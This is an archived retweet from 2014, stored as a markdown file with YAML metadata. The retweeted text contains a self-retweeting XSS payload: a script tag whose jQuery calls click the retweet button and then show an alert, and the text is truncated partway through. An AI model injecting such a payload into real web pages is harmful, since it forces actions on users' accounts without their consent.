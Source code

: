 ```yaml
---
date: 2014-06-11 18:12:31+00:00
repost_source:
  name: derGeruhn
  type: twitter
  url: https://twitter.com/derGeruhn/statuses/476764918763749376/
source: twitter
syndicated:
- type: twitter
  url: https://twitter.com/roytang/statuses/476789085516750848/
---
```


RT [@derGeruhn](https://twitter.com/derGeruhn/): &lt;script class="xss"&gt;$('.xss').parents().eq(1).find('a').eq(1).click();$('[data-action=retweet]').click();alert('XSS in Tweet…